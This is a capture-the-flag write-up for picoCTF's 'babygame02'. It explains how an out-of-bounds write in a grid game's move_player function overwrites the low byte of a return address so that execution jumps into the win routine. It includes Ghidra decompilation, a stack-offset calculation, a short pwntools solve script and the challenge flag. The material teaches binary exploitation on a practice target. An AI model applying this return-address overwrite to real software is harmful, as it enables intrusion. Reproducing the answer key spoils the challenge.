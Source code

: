 # babygame02

## Method

```
Break the game and get the flag.
Welcome to BabyGame 02! Navigate around the map and see what you can find! The game is available to download here.
There is no source available, so you'll have to figure your way around the map. You can connect with it using nc saturn.picoctf.net 59056.
```
**Hint1:** Use 'w','a','s','d' to move around. There may be secret commands to make your life easy.


Similar challenge as to babygame01 grid like structure moving to the final location for the flag but not recieving it.

I shoved it into ghidra like before to see how I could solve it. 

```c
undefined4 main(void)

{
  int iVar1;
  int local_aa8;
  int local_aa4;
  undefined local_a9d [2700];
  char local_11;
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  init_player(&local_aa8);
  init_map(local_a9d,&local_aa8);
  print_map(local_a9d,&local_aa8);
  signal(2,sigint_handler);
  do {
    do {
      iVar1 = getchar();
      local_11 = (char)iVar1;
      move_player(&local_aa8,(int)local_11,local_a9d);
      print_map(local_a9d,&local_aa8);
    } while (local_aa8 != 0x1d);
  } while (local_aa4 != 0x59);
  puts("You win!");
  return 0;
}

```
Glancing at the c function its similar but with 1 glaring issue. We do not have the supposed Test condition for printing the flag.

However it seems the initilizations etc are still the same.
Looking again at the functions like ``init_player`` and ``init_map`` we realise its similar even ``move_player`` they have provided the same function which we can use to cause underflows in the game, This is due to the ``map_buf[(player_y_pos * 0x5a) + player_x_pos)] = player_title;`` where the value player_title value gets written into the LSB due to the ``(player_y_pos * 0x5a) + player_x_pos)``. 

**However in this the move_player() function clears the previous position (using '.') before writing the new position meaning we need to find a specific location to overwrite a address directly.**

investigating all functions we finally see the win funciton however it seems as though from our C function there is no possible way to go to it ;-;

---

**Note:**

As discussed before in babygame01 we know memory here is used in the form of a stack where it grows 'downwards' in the memory meaning address decreases as we add more things. Each function has it's own stack frame.

For this stack we have two things ESP (Stack Pointer) and EBP (Base Pointer)

1. ESP (register) the stack pointer points to the top of the stack or the most recently entered value.

2. EBP(register) Serves as a fixed reference point for the current Stack being used.

We also have general purpose registers liek EAX, EBX etc...

---

`` address opcodes(operations) operation function ``
The decompiled assembly in ghidra has this format ^ 

*Note:*

- LEA = Load Effective Address (calculates new address loading it in a register)
- PUSH = pushes a new value onto the stack
- Mov = transfers data from one location to another

---

### Coming up with a solution now

Considering the previous game we can traverse acrossss the memory byte by byte And we can change one byte anywhere in the stack with the name of the player as shown before. The easiest way to go about this is changing the move_player's return address to be to the win function's address within main which is around  ``0804975d`` or greater 

From this we can understand a certain bytes workflow on how to possibly traverse to it.

Looking at main first we start calculating the number of bytes from main first.

![image](https://github.com/user-attachments/assets/95597c34-fa3c-4d93-b1e7-a3be4aa37439)

Statements before this used to setup the stack.

```asm
        0804967e 55              PUSH       EBP
        0804967f 89  e5           MOV        EBP ,ESP
        08049681 53              PUSH       EBX
        08049682 51              PUSH       ECX
        08049683 81  ec  a0       SUB        ESP ,2720
                 0a  00  00
```

Then we can Start looking at move_player

![image](https://github.com/user-attachments/assets/8b014747-64be-43b4-8333-dfe0ca0bc57f)

```asm
        080496f2 83  ec  04       SUB        ESP ,4
        080496f5 8d  95  6b       LEA        EDX => local_a9d ,[EBP  + -2709 ]
                 f5  ff  ff
        080496fb 52              PUSH       EDX
        080496fc 50              PUSH       EAX
        080496fd 8d  85  60       LEA        EAX => local_aa8 ,[EBP  + -2720 ]
                 f5  ff  ff
        08049703 50              PUSH       EAX
        08049704 e8  6b  fd       CALL       move_player                                      undefined move_player(undefined4
                 ff  ff
```

```
EBP // 4 bytes
EBX // 4 bytes
ECX // 4 bytes
^
|
| 2720 Bytes
v
sub 4 // 4 bytes
param EDX (EBP - 2709) // 11 bytes
param EAX // 4 bytes
dont care about param EAX (EBP - 2720) // 0 bytes refers to existing offset
param local_aa8 // 4 bytes
return address (08049709) // 4 bytes
```

From here we start calculating the number of bytes for each statement

- 4 x 3 for the first 3 Lines

- We consider 4 btytes for the sub 4

- Then we have to consider the fact that we move 2709 back up which is 11 bits from the already moved 2720 

- We can then consider 4 x 3 for the last 3 statements for the return address

Adding all of this we get 39 bytes. Meaning we need to underflow 39 bytes from the buffer Array

However after about 4 movements left the program crashed with SIGSEGV (segmentation fault). To which i can assume i had overwritten something important on the stack due to what the player does now hence why it had crashed. As each time we move the player it seems to change the value to ``.`` then move hence overwritting important stuff on the stack. To avoid this i move once up an extra time before moving to the required offset

I then proceeded to change the name of the player to the value that i want to traverse through Looking at the win condition I can understand that i must traverse to the ``08049770`` or any number above that. Like the previous challenge where we had ``@`` there to write to least significant LSB of the register so again we have to do the same this time pointing it directly to 70. In hex 70 to ascii is ``p`` hence we can change the name to p this allows us to underflow whatever comes next with the lsb 70 moving us to it. **P.S I tried values of ``5d`` to 70 but none worked for me and upon trying 70 worked.**

Now from here I underflow 39 bytes (moving me into the return address). After this accounting for the fact that i had to move up an extra once to avoid a fault i can then move down once. Which then returns my flag :D

Script for insta solve:

```python
from pwn import *

p = remote("saturn.picoctf.net", 59056)

p.sendline("aaaawwwww")
p.sendline("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa")
p.sendline("lp")
p.sendline("s")

p.interactive()
```

## Flag

> picoCTF{gamer_jump1ng_4r0unD_227ec6b0}
